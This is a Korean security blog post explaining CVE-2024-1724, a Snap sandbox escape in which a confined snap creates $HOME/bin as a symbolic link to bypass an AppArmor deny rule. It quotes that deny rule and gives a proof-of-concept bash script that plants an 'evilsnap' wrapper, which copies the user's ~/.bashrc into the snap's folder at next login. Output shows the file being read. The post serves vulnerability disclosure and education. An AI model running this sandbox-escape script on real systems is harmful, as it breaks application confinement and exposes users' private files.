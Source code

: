 ```yaml
---
title: "[하루한줄] CVE-2024-1724 : Snap의 Symbolic Link 경로 미제한로 인한 Sandbox Escape 취약점"
author: j0ker
tags: [snap, sandbox escape, symbolic link]
categories: [1day1line]
date: 2024-07-06 23:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- [Explaining CVE-2024-1724](https://gld.mcphail.uk/posts/explaining-cve-2024-1724/)

## Target

- snap before aa191f9 commit

## Explain

Snap은 패키지 관리자로 스토어에서 소프트웨어를 다운받아 설치할 수 있는 프로그램입니다. Snap 패키지는 샌드박스 안에서 실행되고 AppArmor, seccomp 등에 의해 리소스 접근에 제한을 받습니다. Snap은 사용자의 홈 디렉터리에 대한 읽기 및 쓰기 권한을 위해 home 권한을 요청할 수도 있지만 .ssh 등 파일에 접근하는 것을 예방하기 위해 닷파일과 닷 디렉터리에는 접근이 제한됩니다.

사용자가 우분투에 로그인하면 `$HOME/.profile`을 실행합니다.

```bash
# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi
```

새로 설치할 때는 $HOME/bin 디렉터리가 존재하지 않지만 사용자가 디렉터리를 만들면 로그인할 때 $PATH 앞에 추가됩니다.

하지만 Snap에서는 AppArmor를 통해 bin 폴데에 접근하는 것을 제한합니다.

```bash
audit deny @{HOME}/bin/{,**} wl,
```

`$HOME/bin` 디렉터리를 만들거나 하드링크나 마운트 등 방법으로 해당 링크를 만들 경우 해당 디렉토리 내 리소스에 접근하는 것을 제한하지만, `$HOME/bin`을 Snap 리소스를 가리키는 심볼릭 링크로 만들 경우, 이에 대한 리소스 접근을 제한하지 않습니다.

따라서 Snap 리소스를 가리키는 $HOME/bin 심볼릭 링크를 생성하고 유저가 로그인을 하면 bin 폴더 내 파일에 접근할 수 있습니다.

```bash
#! /bin/bash

FILE=".bashrc"

if [ ! -d "$SNAP_REAL_HOME/bin" ]; then
        mkdir -p "$SNAP_REAL_HOME/bintmp" // -p 부모 부모 디렉터리 함께 생성
        cat << EOF > "$SNAP_REAL_HOME/bintmp/evilsnap" 
#! /bin/bash
cp ~/$FILE ~/snap/evilsnap/current/
snap run evilsnap
EOF
        chmod +x "$SNAP_REAL_HOME/bintmp/evilsnap"
        ln -s "$SNAP_REAL_HOME/bintmp/" "$SNAP_REAL_HOME/bin"
fi
```

위와 같이 bintmp 폴더를 생성하고 아래 evilsnap 파일을 생성하고 실행 권한을 부여해 준 다음, 심볼릭 링크로 bintmp 폴더를 가리키는 bin 폴더를 생성해 줍니다. 유저가 새로 로그인하면 bin 폴더에 접근이 가능하고 파일을 실행할 수 있습니다.

```bash
$ which evilsnap
/home/theuser/bin/evilsnap
$ evilsnap
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

... snip ...
```